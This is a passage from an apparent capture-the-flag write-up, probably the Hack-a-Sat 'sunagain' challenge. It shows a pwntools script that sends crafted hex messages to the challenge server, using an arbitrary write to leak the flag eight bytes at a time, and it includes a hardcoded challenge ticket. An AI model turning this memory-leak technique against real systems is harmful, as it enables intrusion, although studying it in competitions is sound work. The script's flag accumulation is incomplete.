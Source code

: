 OK we can retrieve the first 8 bytes of the flags, the rest is cut off since the arbitrary write also write a NULL pointer at the address ``@4001bf98``. Well that's not a problem, we can't iterate over the flag 8 bytes by 8 bytes:

```python
import pwn

TICKET=b'ticket{sierra22284quebec:GADK33s7y7BILVOHJHlN0pRGveWXISkv3TOdO-QNC6klCrtXQ8l5VFqAH2yqLCbELg}'

def ticket(p):
  p.recvuntil(b'Ticket please:')
  p.sendline(TICKET)
  # print("Ticket sent.")


if __name__ == '__main__':


  inputs = [
    "0801deadbeef000100250c0608204001e40c4001bf900c06080e0000004080000040030241",     # 1 
    "0801deadbeef000200250c0608204001e40c4001bf980c06080e0000004080000040030241",     # 2 
    "0801deadbeef000300250c0608204001e40c4001bfa00c06080e0000004080000040030241",     # 3 
    "0801deadbeef000400250c0608204001e40c4001bfa80c06080e0000004080000040030241",     # 4 
    "0801deadbeef000500250c0608204001e40c4001bfb00c06080e0000004080000040030241",     # 5 
    "0801deadbeef000600250c0608204001e40c4001bfb80c06080e0000004080000040030241",     # 6 
    "0801deadbeef000700250c0608204001e40c4001bfc00c06080e0000004080000040030241",     # 7 
    "0801deadbeef000800250c0608204001e40c4001bfc80c06080e0000004080000040030241",     # 8 
    "0801deadbeef000900250c0608204001e40c4001bfd00c06080e0000004080000040030241",     # 9 
    "0801deadbeef000a00250c0608204001e40c4001bfd80c06080e0000004080000040030241",    # 10
    "0801deadbeef000b00250c0608204001e40c4001bfe00c06080e0000004080000040030241",    # 11
    "0801deadbeef000c00250c0608204001e40c4001bfe80c06080e0000004080000040030241",    # 12
    "0801deadbeef000d00250c0608204001e40c4001bff00c06080e0000004080000040030241",    # 13
    "0801deadbeef000e00250c0608204001e40c4001bff80c06080e0000004080000040030241",    # 14
    "0801deadbeef000f00250c0608204001e40c4001c0000c06080e0000004080000040030241",    # 15
    "0801deadbeef001000250c0608204001e40c4001c0080c06080e0000004080000040030241",    # 16
    "0801deadbeef001100250c0608204001e40c4001c0100c06080e0000004080000040030241",    # 17
    "0801deadbeef001200250c0608204001e40c4001c0180c06080e0000004080000040030241",    # 18
    "0801deadbeef001300250c0608204001e40c4001c0200c06080e0000004080000040030241",    # 19
  ]

  # remove pwntools output
  pwn.context.log_level = 'error'
  
  flag = b""
  for input_msg in inputs:
    
    p = pwn.remote("sunagain.satellitesabove.me", 5045)
    ticket(p)
    
    # send our input
    p.recvline()
    p.recvline()
    p.send("%s\n" % input_msg)

    # decode partial flag
    partial_flag = p.recvline()
    partial_flag = partial_flag.rstrip(b'\r\n')
    print(partial_flag)

    p.close()
    
  
  print("final flag {}".format(flag))
```